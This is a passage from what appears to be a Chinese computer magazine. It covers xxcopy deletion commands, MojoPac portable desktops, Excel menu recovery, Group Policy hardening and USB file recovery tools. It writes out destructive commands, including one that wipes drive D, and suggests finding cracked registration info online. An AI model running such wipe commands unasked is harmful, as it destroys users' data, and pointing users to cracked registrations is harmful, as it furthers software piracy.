输入xxcopy c:\garb /s /h /yy /rs /da:2003-03-03 /db:2003-05-01,
```

只删除掉介于2003年3月3日和2003年5月1日之间的文件。

#### 9.删除掉所有空文件夹

输入xxcopy c:\garb /rmdir /sz:0 /yy则会删除掉c:\garb下所有空文件夹（空文件夹大小为0）。

#### 10.删除掉字数为0的文件

输入xxcopy c:\garb\*.* /sz:0 /s /h /yy /rs则会删除掉所有字节数为0的文件。

#### 11.快速清空磁盘

输入xxcopy d:\ /rmdir /yy会快速删除D盘上数据，请慎用！

#### 12.删除掉所有但只留下指定文件

```
xxcopy *.* /rs /yy /s /h /w0 /x*.txt /x*.doc /x*.xls /x*.ppt /x*.chm /x*.cmd /x*.bat /x*.rar /x*.zip /x*.htm /x*.mht /x*.wps
```

此命令将会删除掉当前文件夹下，除了txt、doc、xls、ppt、chm、cmd、bat、rar、zip、htm、mht和wps为扩展名的文件，这样就方便了很多。如果你还要留下其他类型的文件，可以在后面添加/x参数，后面再加上相应的文件类型即可。

## 习惯随身带，一U走天下

由于工作、生活的需要，U盘、移动硬盘等移动存储我们几乎天天都能用得到。如果能够将自己的各种私人数据和平时使用操作系统的习惯随身携带，那么我们在不同机器上工作就方便多了。MojoPac（下载地址：http://www.newasp.net/soft/system/20561.html）就是一款这样的软件，它可以让你的iPod、外置硬盘、U盘等移动存储变成一台“私人便携 PC”，把你的XP桌面、设置、账号，甚至程序和习惯设定都塞进一个便携存储设备中，真正即插即设即用。当这些设备与任意一台安装有 Windows XP 的电脑主机相连时，用户可以在这台电脑上运行个人程序，就像在自己的电脑上一样方便。

### 一、MojoPac安装

MojoPac安装时要注意一个问题就是软件安装位置的选择，一定要安在U盘的根目录，这样做的目的是为了以后插入U盘，MojoPac就能自动运行。此外，还有一个问题，就是本软件捆绑了插件，安装时请注意去除。安装完之后会弹出“MojoPac 初始用户设置”窗口，单击“取消”按钮暂时关闭它，然后单击“完成”按钮完成安装。

### 二、MojoPac的初始化设置

安装完成后，运行根目录下的“Start.exe”，弹出“MojoPac 初始用户设置”窗口（如图1），按照提示填写好相关内容，其中，“登录名”和“密码”是用来登录MojoPac，相当于XP中的系统管理员，一定要记住。填好后，会弹出一个“你首次在这个设备上运行MojoPac，你是否需要把你的图片、音乐文件或其它文件从主机电脑中复制到你的MojoPac设备？”的提示窗口，单击“是”按钮就会弹出“MojoPac数据复制”窗口（如图2），这个窗口有四个可供选择的选项框。“IE设置”选项框是针对IE浏览器的，建议采取默认设置，这样你访问过的网站的网址，就会自动保存在U盘上；“Mozilla Firefox 设置”选项框是针对火狐浏览器的，大家可以根据需要，灵活选择；“公用文件和文件夹”选项框是针对多用户共用的“我的文档”资源设置，建议不选。在“附加要复制的主机文件夹和文件”选项框，我们可以通过单击“添加文件夹”和“添加文件”来选择要复制到U盘上的文件夹和文件。设置完成后，单击右下角的“完成”按钮，软件就开始自动复制选定项目的文件夹和文件到你的U盘上，复制完成后，就会弹出MojoPac的登录界面（如图3）。





| 项目 | 值 |
| :--- | :--- |
| 复制后的自由空间 | 935.3MB |
| 选定文件大小 | 9.0B |


在图2所示窗口中，我们可以从“MojoPac 磁盘使用情况”选项框看到当前U盘的空间使用情况，“复制后的自由空间”和“选定文件大小”这两项数据可实时查看。

### 三、MojoPac的应用

单击登录界面中的“启动Mojo”按钮，就会出现MojoPac登录窗口（如图4），输入“用户名”和“密码”，再单击“登录”按钮即可。由于是第一次登录MojoPac系统，软件会提示要有一个二分钟左右的初始化系统的时间。初始化完成后你会发现一切和真实的XP系统没什么两样，你可以根据需要和使用习惯把你的XP桌面、设置、账号，甚至程序和习惯设置好。当你设置好的U盘在任何一台装有XP的电脑上使用时，启动MojoPac以后，一切是那么熟悉——刚才你做的一切设置又回来了。



- **1. 在MojoPac安装和运行软件**

在MojoPac系统中，是不可以访问本地硬盘的（C盘可以，但内容是U盘上的内容），因此在MojoPac安装软件，一定要先把软件包复制到U盘的根目录，然后再登录MojoPac系统，软件安装的方法和在真实操作系统中是一样的。安装的程序完全可以在MojoPac使用。MojoPac支持任何市面上经常使用的应用软件和游戏，如QQ、Microsoft Office等产品。更为可贵的是，你可以在这个虚拟的操作系统中任意地安装和运行程序，而所有在这个虚拟操作系统中所作的更改及产生的数据，都不会在

#### 2.MojoPac与主机之间的切换

在MojoPac系统中，如果我们要用到硬盘中的文件，该怎么办呢？总不能退出MojoPac系统吧？这时可以单击屏幕上方工具条中的“切换到主机”按钮，就会恢复到主机界面，将要用到的文件复制到U盘的根目录，再单击屏幕上方工具条中的“切换回Mojo”按钮，就可重新进入到MojoPac系统，相关文件就可以使用了。

#### 3.退出MojoPac

单击屏幕左上角的“关闭”按钮，在弹出的窗口单击“退出”按钮，开始注销和关闭MojoPac系统（如图5），返回到主机界面。



### 四、常见问题及解决

为了让大家能够更好地使用MojoPac，现将笔者在使用过程中遇到的问题及解决方法奉献给大家。

#### 1.输入法工具栏消失怎么办

- 第一步：退出MojoPac系统，将“C:\WINDOWS\system32”（C盘是系统盘）下的“ctfmon.exe”复制到“H:\WINDOWS\SYSTEM32”（H是U盘盘符）。
第二步：再打开记事本，输入以下内容：
Windows Registry Editor Version 5.00
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run]
"ctfmon.exe"="C:\\WINDOWS\\system32\\ctfmon.exe"
另存为a.reg，保存到U盘的根目录。
第三步：最后启动MojoPac系统后，双击将a.reg导入注册表，退出并重新进入MojoPac系统后就可以在任务栏的右下角看到输入法工具栏了。

#### 2.怎样防止MojoPac被新的英文版本覆盖

汉化版已经解除了原版对自动更新的禁用，为防止软件更新而将汉化版更新为英文版，请在进入MojoPac系统后，禁用自动更新。方法是：可右击托盘图标来打开自动更新设置窗口，勾选“从不检查或下载更新”选项（如图6）。



- 1. 在MojoPac系统中，屏幕上方的那个工具条，在那里挺碍眼的，你可单击工具条上的“最小化”按钮，工具条就会自动隐藏，只有当你的鼠标指到屏幕的最上方时，它才会出现，鼠标离开后，它又会自动隐藏。
2. 如果你的电脑上安装了多操作系统或者是操作系统没有安装到C盘，那么MojoPac将无法使用。

## 修复隐藏的菜单栏和工具栏

◆文/抚远大将军

当我们打开含有宏代码的EXCEL文档时，有时因为断电或者是程序假死等原因非正常退出时，就会出现菜单栏和工具栏消失的情况（如图），这是由于宏代码将菜单栏和工具栏隐藏了，因为是非正常退出，所以没有及时恢复菜单栏和工具栏所致。怎样让消失的菜单栏和工具栏“重见天日”呢？下面就给大家介绍一下。

### 方法1：删除配置文件恢复

打开“我的电脑”，然后单击菜单“工具→文件夹选项”，点击“查看”选项卡，取消“隐藏受保护的操作系统文件”前的对勾，并在“隐藏文件和文件夹”项中选择“显示所有文件和文件夹”，然后点击“确定”。显示所有的文件后，进入C:\Documents and Settings\你的用户名\Application Data\Microsoft\Excel目录下，在该目录下，你会发现一个扩展名为xlb的文件，把它删掉，再重新运行Excel，系统会生成新的xlb文件，此时菜单栏和工具栏就全部出来了。

### 方法2：利用宏代码恢复

既然是宏代码使EXCEL的菜单栏和工具栏消失了，那么“解铃还须系铃人”，我们一样可以利用宏代码来恢复EXCEL的菜单栏和工具栏。先按下Alt+F11快捷键，调出“宏编辑器”，然后新建一个模块，并输入以下代码：

```
Sub Menu()
CommandBars("Worksheet Menu Bar").Enabled = True
End Sub
```

最后，按下F5快捷键来运行此宏，你就会发现EXCEL消失的菜单栏和工具栏都出现了。

## 系统应用 SOLUTIONS

现如今，电脑早已成为了我们的生活必需品。但是在平时的使用过程中，你是否遇到过以下这些小小意外：自己十分中意的桌面墙纸被任意修改掉，很心痛；非法下载引来无数病毒，很懊恼；由于失误任务管理器很不给面子地自动关机，很郁闷；和别人共用电脑时IE选项被修改，很气愤；甚至是插入移动硬盘，也会“飞来横祸”，叫人苦不堪言。如果你的答案是：NO，那你真的是很幸运。我可是常常听此抱怨，受其骚扰。

每当这样的情况出现时，我们常常束手无策，有时最后还只能求救于其他软件，将这些错误纠正、修改过来。这种事后的麻烦补救出现次数多了，多少会让人感觉很无奈。那么有没有一种防患于未然的办法，让我们在事故发生前就将其扼杀在摇篮里呢？很高兴答案是：YES。下面我们就要介绍一个保护系统的好方法——组策略，它是Windows XP自带的，操作起来相当的简便，只需要对有关选项进行相应的设置，那些恼人的事情就再也不会在你眼前出现了。

# 组策略 组成系统长城

◇文/TMG zlw

下面我们就开始踏上对组策略的探索之旅：

还是先来说点理论方面的东西，好对组策略有个整体的概念。组策略，其实是管理员为用户和计算机定义并控制程序、网络资源及操作系统行为的主要工具。简单点说，也就是修改注册表中的配置从而达到我们想要的效果。

听上去是不是还有点模糊，然而具体的操作还是不麻烦的，我们就先进入“组策略”界面说起吧。

# 一、进入界面

在桌面的左下方找到“开始”按钮，单击，在出现的菜单中单击“运行”选项，在随后出现的“运行”对话框中的“打开”一项后键入“gpedit.msc”，回车，组策略窗口就出现在我们面前。

进入到组策略的窗口，我们便可以开始“防御大作战”了。把我们不希望出现、不愿意看到的种种都拒绝在门外。

# 二、我的墙纸你别碰

在这个张扬个性的年代里，电脑的桌面墙纸自然也要打上自己的风格印记。可想而知，把自己喜欢的图片设置成桌面墙纸就是最常见的表现方式。然而不经意间自己的墙纸竟然被别人篡改了，并且还换上了自己厌恶的风格图片。这样的心理落差想必是很不舒服、很难受的吧。那么就用组策略对禁止修改墙纸的有关选项进行设定，就能对下一个企图修改你墙纸的人大吼一声：我的墙纸，你别碰。

具体的操作步骤如下：

在组策略窗口的左侧，我们可以看到“本地计算机策略”树状菜单，单击展开，会看到“用户配置”次级树状菜单，接着展开“管理模版”，“桌面”等树状菜单，直到出现“Active Desktop”为止。如图。

单击，随后在组策略窗口的右侧双击“Active Desktop墙纸”策略项。

这时系统会自动弹出一个名为“Active Desktop墙纸属性”的设置对话框。我们先勾选“已启用”单选项，对话框内的文本框就会被激活。

我们这时需要做的就是在“墙纸名称”项中键入墙纸图片的路径，重点要注意标明清楚逐级文件夹的名称和图片名称。然后再在“墙纸样式”项的备选项“居中”、“平铺”、“拉伸”中选择自己中意的效果即可。最后再单击“确认”按键，以后就再也没有人能改动你的桌面墙纸了。

仅仅只用了一个“Active Desktop墙纸”策略就可以既允许用户随意设置墙纸又防止其他人改动墙纸，比起下载专门的软件来，这个方法更实用。组策略真的出手不凡，不可小觑。



# 三、非法下载，我来挡

我们平时在用IE浏览网页时，经常会发现一些自己喜欢的好电影，或者很实用的软件。这时，你会不会有种很想下载下来的冲动？如果答案是YES，那你可就要注意了。需要避免其他的人也擅自利用你的电脑来下载一些东西。一般情况下，利用IE下载的东西，多半属于非法下载，带有一些病毒。这样下载下来的东西不仅会占用很大的硬盘空间，更重要的是，它将直接威胁到你系统的安全。这样一来，控制好非法下载文件，还我们一个安全的系统环境显得更加的重要。改掉以前用其他软件屏蔽下载功能的方法吧，我们用组策略来挡。

其实禁用IE下载的操作很简单。首先我们仍然需要来到“组策略”窗口，依旧在它的左侧区域里单击“计算机配置”树状菜单，在随后展开的菜单里单击“管理模版”，在它展开的菜单里，我们要找到“Windows Components”项，继续单击展开，让我们就这样一级级的沿着“Internet Explorer”、“安全功能”展开，你会找到“限制文件下载”项。这个就是我们需要的。单击，在“组策略”窗口的右边区域将出现有关它的所有内容。

找到“Internet Explorer进程”项，双击，便会有个“Internet Explorer进程 属性”对话框自动弹出来。我们只需要在这个对话框里勾选“启用”，然后单击“确定”。

此后电脑系统将提示阻止Internet Explorer进程中的非用户初始化的文件下载，IE就再也不能被利用来下载文件了。

# ## 四、任务管理器你别动

当我们按下“Ctrl+Alt+Del”键，用户控制选项可就都出来了。包含着任务管理器、锁定计算机、更改Windows密码、注销Windows、关机等众多控制项，重要性不言而喻。这么关键的控制平台，要是让别人给控制了，后果还真是相当的严重啊。还有就是如果我们操作的时候出现手误，选择了不该选择的项，只怕是郁闷也于事无补。所以最好的办法就是让任务管理器也玩玩隐身，那么还是需要请组策略来帮帮忙。

依旧先来“组策略”窗口报到，然后再在左侧区域里依次一级级的寻找以下选项名：“用户设置”、“管理模版”、“系统”，最后在“系统”所展开的树状菜单里单击“Ctrl+Alt+Del选项”。

窗口的右边区域就会出现“删除任务管理器”、“删除锁定计算机”、“删除更改密码”、“删除注销”四个策略。我们可以选择任意一个想屏蔽的项目，双击。

那么有关这个选项的设置对话框就会弹出来。这以后我们所要做的就是勾选中“启用”，而后按下“确定”键。

这样，我们就能防止别人的恶意破坏和自己的误操作了。当然如果你想让全部的控制都隐身，就必须耐着性子，一个个选项设定了哦。

# ## 五、Internet选项，我隐身

和别人共用一台电脑，不是件让人高兴的事。不仅仅是因为没有了独享的乐趣，更重要的是自己的隐私也得不到很好的保护。尤其是你浏览过哪些网站，登录过哪些论坛，别人都可以一览无余的清楚知道，这样的感觉还真的不怎么好受。因此，我们需要通过组策略，分别从安全级别和控件启用设置等方面对IE进行一次全方位的保护。让其他人不能知道，也不可能修改我的Internet选项。害人之心不可有，防人之心还是不可无。

为了屏蔽掉IE的“Internet选项”，我们还是先进入“组策略”界面，在左边区域单击展开各个树状菜单，依次是：“用户配置”、“管理模版”、“Windows Components”、“Internet Explorer”和“Internet控制模版”。

当我们最后单击完“Internet控制模版”选项后，右边的窗口就会显示出禁用“Internet选项”的所有策略项。

我们只需要双击需要禁用的选项，在弹出的设置对话框中勾选“启用”，再单击“确定”即可。

这样，你不希望出现的东西就全部被屏蔽掉了，如果以后你还希望它再次出现，很简单，再依样来一次，只是最后将“启用”改为“未配置”就行了。真是个简单好用的方法啊。

# ## 六、移动硬盘，我禁播

当你把硬盘、移动硬盘、闪存或者是光盘等插入电脑后，它们是不是马上就会自动播放起来？于是，你又必须马上关闭它们。尤其是当它们具有多个分区时，还需要手动地一个一个的去关闭。更可怕的是，如果它们是携带病毒的，那么当它们插入电脑自动播放时，还会触发这些病毒，在瞬间感染一台原本无病毒的电脑。轻则只是改改你的盘符，重则却可让你的电脑系统彻底瘫痪。这样的情况时常在我们身边上演，防不胜防。那么在如今这个病毒无孔不入的年代，我们能做的就只有尽可能的将这种惨剧发生的几率降到最低，组策略在这时也就派上大用场了。

进入“组策略”窗口后，我们先展开“计算机配置”树状菜单，并在其中找到“Windows设置”，继续展开“Windows设置”树状菜单，再在其下的“安全设置”菜单中找到“软件限制策略”，单击“软件限制策略”下的“其他规则”。

在窗口的右边空白处单击鼠标右键，添加路径和文件名即可。例如，当我们输入g:\*.exe，就可以防止exe文件的自动运行了。

# ## 七、有关文件，我审核

用电脑，最大的担心就是安全的问题。自己的隐私安全、账户安全、信息安全等都是我们要特别注意的地方。这样，Windows XP自带的可以使用审核跟踪访问文件或其他对象的用户账户、登录尝试、系统关闭或重新启动以及类似的事件，让我们在网游时丝毫没有安全感，黑客的趁虚而入，已经上演过很多的惨剧。所以我们还得时刻提高警惕。但是在利用组策略来进行文件、文件夹的审核后，我们就能轻松下来，因为它可以保证文件及相关内容的安全，是其他人不可能轻易进行破坏的。

来到“组策略”窗口后，将窗口左侧的“计算机配置”、“Windows设置”、“安全设置”、“本地策略”等树状菜单进行逐级展开，直到最后单击到“审核策略”选项为止。此时在右侧窗格中就会出现很多选项。

我们只需要用鼠标双击“审核对象访问”选项，在随后弹出的“本地安全设置”窗口中，将“本地安全设置”复选框内的“成功”和“失败”都勾选标记。再单击“确定”就可以了。

这样，我们以后就不需要再为安全而担心，可以尽情享受在网络上遨游的乐趣。

综述：上文中，我们对可以让Windows XP系统变得更安全的组策略进行了一番深入的了解，列举了六个典型的设置，其实在组策略中还有很多为用户安全考虑的设置，操作方法也都类似，故在此就不一一赘述了。希望用户能在以后的电脑使用中，更加畅快，更加舒心！

# 失而复得：U盘文件的恢复和修复完全接触

在电脑操作时，我们经常会碰到数据意外丢失的情况。比如，在网络论坛或搜索引擎中经常可以看到这样的问题：“我的U盘盘符可以找到，可是原来的文件都不见了，里面的文件很重要，能找回来吗？”答案似乎是很肯定的，电脑高手们不仅可以找回丢失的数据，还可以通过这些数据制造一些大大小小的事件。以沸沸扬扬的“艳照门”事件为例，其起因就源自于陈冠希的送修笔记本里的“艳照”被人恢复并在网上流传。如今，系统感染病毒、文件意外删除、错误操作等情况，都有可能导致计算机中的数据丢失或损坏，而且数据遭受意外的程度各不相同。因此，大家也许会问，为什么硬盘或U盘上的数据删除后还能恢复？如何才能有效恢复或修复这些数据呢？针对大家关心的这个话题，我们从恢复和修复两方面入手，介绍如何保护U盘中的隐私数据。

# 数据丢失的原因

# 1. 数据删除与恢复的基础知识

既然U盘里的数据已经被删除，为何自己的数据还能被数据恢复软件还原呢？这就要从磁盘存储的基本原理说起了。这里以图书馆的书架为例。磁盘数据的存放和图书馆的书架存放一样，所有数据都是一排一排分门别类的存放着，系统读这些数据时，首先会查找这些书籍的书签，接着再读取数据。正是这样的存储模式，使得U盘上的数据被删除后有了可以恢复的可能性。

一般用户删除电脑上数据，都是将其放到系统回收站里，这样其实并没有将数据删除。这只相当于将图书馆中要销毁的书籍贴上了“准备销毁”的标签，当用户要将回收站中的数据恢复时，需要做的仅仅是把贴上的“准备销毁”标签给撕掉。对于那些不仅放入回收站而且彻底删除的数据，就如同把图书馆中要销毁的书籍的标签从索引库中给销毁了，这些书籍（数据）依然存放在书架（U盘）上，仅仅是用户在索引中查询看不见这些书籍（数据）的消息。

> 小知识：
删除硬盘中的文件，有两种类型，一种是逻辑删除，另一种是物理删除。两种方法虽然都可以删除文件，但效果却大相径庭。逻辑删除只是把文件名称的第一个字母改成一个特殊字符，然后把该文件占用的簇标记为空闲状态，但文件所包含的数据仍然放在磁盘上。只有当把新的文件保存到磁盘时，这些簇才可能被新的文件所覆盖。物理删除是指文件存储所用到的磁存储区域被真正地擦除或清零，通常是将硬盘中的文件内容区域先全部写入0，再写入1，最后删除。一般来说，物理删除的文件是不可恢复的。

所以，本专题所讲述的文件恢复过程，就是用软件对U盘进行详细的检查，即把索引（文件头）填补上。然后，对某些重要的单个文件实施具有针对性的修复。

# 2. 对号入座：理顺恢复U盘文件的思路

文件出现故障之后，首先不要心慌。很多用户心理素质欠佳，往往会“病急乱投医”，容易出现更多的误操作。比如，随便向U盘中写入文件，这无疑会“雪上加霜”，使得文件恢复难度加大。如果是自己进行修复，建议按照正确的恢复策略行事。

- 第1步：遵守操作规范，避免继续写入数据
数据恢复是一个相对专业的工作，数据丢失后，千万不要在U盘上再进行其他读写操作，不要在U盘上安装或存储任何文件和程序，否则它们就会把要恢复的文件覆盖掉，给数据的恢复带来很大的难度。

> 小知识：
U盘和本地硬盘的区别
U盘可以被当作一个本地硬盘来对待，它就是一个支持热插拔的可移动硬盘。它们的区别是：（1）本地硬盘正常删除文件时，会提示是否要放到回收站；如果不用【Shift+Del】快捷键则会自动放到回收站。（2）移动U盘删除文件没有删除提示，能够直接彻底删除，相当于在本地硬盘中使用【Shift+Del】快捷键。

- 第2步：对号入座，查找数据丢失的原因
一般情况下，数据丢失的原因有：计算机病毒，误格式化、误删除，分区盘符丢失或出错，不明原因造成Office文档不能打开或损坏等。实施数据恢复之前，要像扁鹊看病一样，通过“望、闻、问、切”对号入座。比如，修复误格式化、误删除引起的数据丢失时，只要没有向丢失数据所在的分区写入新的数据，那么数据恢复的成功率很高。

- 第3步：使用专业工具或专业方法进行恢复
我们经常会碰到这样的情况，U盘的空间明明被占用了很多，但是打开时却是一片空白。针对这种情况，可以考虑使用一些专业的数据恢复软件或技巧进行恢复。修复数据时，建议先备份源文件后再进行修复；如果是误格式化的磁盘分区、误删除的文件，建议使用Ghost系列软件将误格式化的分区或误删除文件所在分区进行备份。

> 小知识：
一种简单有效的U盘文件恢复方法
碰到U盘数据丢失的情况时，首先，在任何一个地方建立一个空白的压缩文件。然后，双击该压缩文件，打开对话框后，单击向上的文件箭头，一直找到U盘目录，就能看到U盘中的所有文件。最后，依次选中U盘中的某个文件夹或文件，把它重新压缩到本地硬盘的其他位置。这样，文件夹或文件就可以被拷贝出来了。

# 二、巧用软件寻找丢失的文件

除了上述操作要点，关于文件修复工具的选择也十分重要，现在的文件修复软件都各有特点，修复率也各有差异。在Windows系统下，有很多免费的文件修复软件，包括：EasyRecovery、FinalData、Recover My Files、WinHex、DataExplore、USBoot、Undelete Plus、DataRecovery、PC Inspector File Recovery、Restoration、Recuva等。下面对其中的优秀软件进行介绍。

# 1. 功能丰富的EasyRecovery 6.12.02

推荐指数：★★★★★

无论是界面的美观度，还是操作的便捷性以及功能的实用性方面，EasyRecovery都是一款值得推荐的软件。它由著名数据恢复公司Ontrack出品，能够帮助用户恢复丢失的文件以及重建文件系统，其专业版本功能更加强大，囊括了磁盘诊断、数据恢复、文件修复、邮件修复等功能。软件恢复的成功率比较高，扫描速度也快。这里，我们以汉化版本为例进行介绍。软件下载并运行后，直接单击“下一步”即可完成安装。
软件下载地址：http://www.easyrecovery.com.cn

# 第1步：通过磁盘诊断了解U盘状况

类似于扁鹊看病之前的“望、闻、问、切”，诊断U盘的目的在于：了解磁盘的整体状况，为数据恢复打下基础。启动EasyRecovery软件后，即可看到界面的功能按钮。点击“磁盘诊断”，在右边的界面可以看到丰富的诊断按钮，包括：驱动器测试（测试潜在的硬件问题）、智能测试（监视并报告潜在的磁盘驱动器问题）、大小管理器（磁盘驱动器空间使用的详细信息）、跳线查看器（查找IDE/ATA磁盘驱动器的跳线布置）、分区测试（分析现有的文件系统结构）、数据顾问（创建自引导诊断工具盘）等。如图1所示。



# 第2步：选择数据恢复方式

点击左侧的“数据恢复”按钮，在右侧的界面中会出现各种恢复按钮，包括：“高级恢复”、“删除恢复”、“格式化恢复”、“原始恢复”、“继续恢复”、“紧急引导盘”等。其中，比较常用的“高级恢复”可以使用高级选项自定义数据恢复、自定义恢复目标选项等。如图2所示。

# 第3步：选择需要恢复的分区并进行设置

点击“高级恢复”按钮，软件首先会对系统进行扫描，并列出相关的数据分区。选择其中的目标U盘，可以看到扇区信息、簇大小、卷大小。单击软件界面中的“高级选项”按钮，还可以对分区信息、文件系统扫描、分区设置、恢复选项进行设置。设置完毕，单击“下一步”按钮，开始对U盘的区块信息进行扫描。如图3所示。





# 第4步：选择需要恢复的文件夹或文件类型

点击“下一步”，Easyrecovery对误删文件所在的磁盘数据恢复情况很快展示出来。此时，U盘开始进行读操作，时间视分区大小而定。扫描搜索完成后，就会罗列出搜索到的文件。默认设置下，EasyRecovery会对所有类型的文件进行扫描，考虑到扫描时间的问题，建议在“文件过滤器”下进行设置。勾选“使用过滤器”功能，单击“过滤器选项”按钮设置文件过滤。例如选择“Office文档”时，只对*.doc、*.dot、*.xls、*.xlw、*.ppt等格式的文件进行扫描，可以大大提高扫描效率。扫描结束后，我们会看到类似资源管理器的文件列表窗口，左侧窗格显示的是文件树，右侧窗格则显示了文件的名称、大小、日期、条件等信息。如图4所示。



# 第5步：恢复文件

选中需要恢复的文件数据，点击“下一步”，在弹出的菜单中，点击“浏览”选择文件数据要保存的路径。然后，点击“下一步”即可恢复该文件。在这里，用户可以选择不同的保存方式，包括：选择恢复文件至本地驱动器，恢复至FTP服务器，或者创建ZIP压缩文件。如图5所示。



# 恢复方式的选择

Easyrecovery还提供了“删除恢复”、“格式化恢复”、“原始恢复”、“继续恢复”、“紧急引导盘”等功能，具体的操作与“高级恢复”类似。当使用“删除恢复”、“格式化恢复”、“继续恢复”等功能无效时，可以考虑使用“原始恢复”功能，它可以忽略任何文件系统信息直接进行恢复。

# 第6步：修复文件

除了恢复文件之外，Easy Recovery还提供了强大的修复文件的功能，它可以针对多种文件格式进行“一条龙”修复。例如修复损坏的Microsoft Office文档（Word、Excel、PowerPoint、Access）、修复损坏或无效的ZIP文件、修复损坏的Microsoft Outlook/Outlook Express文件，而“磁盘诊断”功能更是异常出色，可以检测并报告潜在的硬盘问题，还可以创建一张自诊断引导工具盘，感兴趣的朋友不妨一试。

# 2. 快速便捷的FinalData V2.01

推荐指数：★★★★☆

FinalData V2.01的特点在于：操作界面简洁，操作速度快捷，可以很容易地恢复被格式化的文件和被病毒破坏的文件。只要数据仍然保存在硬盘上，即使目录结构被部分破坏也可以恢复。

软件下载地址：http://www.crsky.com/soft/963.html

# 第1步：选择目标U盘并进行扫描

单击“文件”菜单下的“打开”选项，进入选择驱动器界面，用户在这里可以选择逻辑驱动器或物理驱动器。在本例中，选取“逻辑驱动器”窗口中的移动U盘。点击“确定”，即可进行快速的簇扫描。扫描的信息包括：驱动器名称、共有簇大小、要扫描的簇范围、目录等。一般来说，U盘容量越大，读取的时间就越长。因此，在选择搜索的簇范围时，最好选择最小，可以最大限度地搜索该磁盘可供恢复的文件数据。如图6所示。

# 第2步：选择需要恢复的文件

扫描结束后，在程序界面中会显示搜索到的所有文件和文件夹，包括曾经被删除的目录名和文件。左边的目录信息包括：根目录、已删除目录、已删除文件、丢失的目录、丢失的文件、最近删除的文件、已搜索的文件等等；右边则列出了详细的文件数据，而且，被删除的目录和文件名的第一个字符都变成了“#”号。如图7所示。



# 第3步：恢复文件

锁定目标对象后，用户可以选中恢复的一个或多个文件，单击“文件”菜单下的“恢复”选项。然后，设置要存放被恢复的文件或文件夹路径，点击“保存”，即可将文件保存到指定路径。如图8所示。



# 第4步：恢复不能打开或损坏的Office文档

启动FinalData V2.0后，打开“文件”下的“打开”，找到需要恢复的Office文档，选取“Office文件恢复”项目的所需恢复文档类型，进入恢复界面。然后，点击“下一步”，进入检查损坏率界面，先进行检查。这里提供了损坏级别的测试，分别是：L0，L1，L2，L3，L4。单击“检查率”按钮，可以对文件损坏的级别进行测试。如图9所示。

测试完毕，单击“下一步”进入保存恢复文档的路径界面，点击“恢复”，恢复后到指定的目标中查看恢复情况。恢复界面如图10所示。



此外，FinalData2.0还有一些其它的恢复功能，例如，恢复部分损坏的MPEG文件和ORACLE导出文件、电子邮件的恢复等。

## 3. 智能实用的Recover My Files V3.98

推荐指数：★★★★☆

Recover My Files的特点在于：可以根据向导快速恢复误删的文档；可以自定义搜索类型以提高搜索速度及准确性，节约时间。在搜索过程中，软件提供了大量的信息，包括：文件名、文件/目录、尺寸、相关日期、状态、对一般性文档可直接预览等。使用软件时，首先需要进行注册，用户可以通过网络查找汉化版注册信息。

软件下载地址：http://www.skycn.com/soft/15874.html

### 第1步：打开文件搜索向导

软件的运行界面十分漂亮，运行时会启动一个向导界面。在这个界面中，包含了四个搜索类别，分别是：快速文件搜索、完全文件搜索、快速格式化恢复和完全格式化恢复。其中，快速搜索可以恢复刚刚删除的文件或文件夹，完全搜索则可以进一步加大搜索范围；而格式化搜索则是恢复误格式化删除的数据。如图11所示。



> **小技巧**
选择某种搜索方式之前，单击向导界面右下方的“手动设置选项”按钮，可以设置文件类型、搜索参数以及高级选项等。例如，针对已删除的文件、丢失的文件以及格式化恢复过程进行设置。这样，就可以使搜索更具有针对性。如图12所示。



### 第2步：设置文件类型或搜索参数

在这个步骤中，首先需要选择一种搜索方式。本例选择“快速文件搜索”。点击“下一步”按钮，在出现的对话框中，选择要恢复的目标盘符或目录。本例中，选择一个损坏的移动U盘作为恢复目标。继续单击“下一步”按钮，设置文件类型。Recover My Files把文件分为：图形图像、文档文件、压缩文件、多媒体文件、邮件、数据库及数据文件，用户根据需要勾选需要恢复的文件类型，从而缩小搜索范围。现在，点击“开始”按钮，就可以开始搜索了。

### 第3步：进行U盘文件搜索

搜索完毕，出现一个文件管理窗口。在左侧，提供了文件类型视图和文件夹视图，右边的窗口则显示了丢失的文件，包括文件类型、大小、恢复程度和文件夹等，用户可以按照这些参数查看并排列待恢复的文件。尤其值得一提的是，在恢复一栏中显示了不同的恢复程度，包括：非常好、中、差、未知等，下方窗口还可以预览文件和了解事件日志。如图13所示。



### 第4步：保存搜索的文件

锁定需要恢复的文件，点击工具栏上的“保存文件”按钮，就可以顺利地找到被恢复的文件了。

## 4. DIY：用WinHex手工寻找U盘数据

WinHex的特点在于：文件小、速度快，是一个很不错的十六进制文件编辑与磁盘编辑软件。它可以跳过操作系统直接读取U盘，软件还有多文件搜索替换功能，支持FAT16、FAT32和NTFS等多种格式。对于需要手工修复文件的用户来说，十分方便。这里以汉化版的WinHex V15.1为例。下载软件后，直接运行即可打开软件，界面与Office文档有些类似，功能按钮排列整齐而紧凑。

软件下载地址：http://www.winhex.com/winhex/

### 第1步：确定待恢复文件类型的十六进制值

点击WinHex “工具” 菜单下的 “打开磁盘” 命令，打开需要恢复的目标U盘。打开后可以看到WinHex子窗口表格，在界面中共有三个列，最左边的是偏移值，相当于行号；中间显示的是十六进制代码，右边是每组代码对应显示的文字。这里以比较常见的RAR文件为例。无论是哪种格式的文件，开头都会有特定的标记，所以，只要知道对应的代码就能知道文件类型。因此，首先在桌面上用WinRAR软件新建一个RAR文件。然后，用WinHex软件打开该文件。在右边窗口的起始部分，可以看到 “Rar!” 字符，选中该字符，可以发现它所对应的十六进制值为 “52 61 72 21”。这就是我们恢复文件时要用到的一个关键字段了。如图14所示。



### 第2步：查找代码串

切换到打开U盘的窗口，依次单击 “搜索→查找十六进制数值”，输入刚才的RAR文件十六进制数值：“52 61 72 21”，单击确定按钮开始搜索。由于U盘文件比较小，因此只用了1分钟的时间，便找到了第一个数值完全相同的一串代码，双击选中开头部分。按F3键继续查找第二个相同的代码串，在代码串的前一个位置点击右键。然后，在弹出的快捷菜单中选择 “End of block” (块终止点)，选中区会变成浅蓝色。如图15所示。



> 小技巧：搜索代码串的实用技巧
找到一串代码后，可以用笔记下偏移值，以免误操作后重新查找。此外，纯文本格式的TXT文件查找更加容易，恢复时可以直接用WinHex搜索文件中包含的中文或者英文关键字，确定文件所在位置。

### 第3步：将选好的编码变成文件

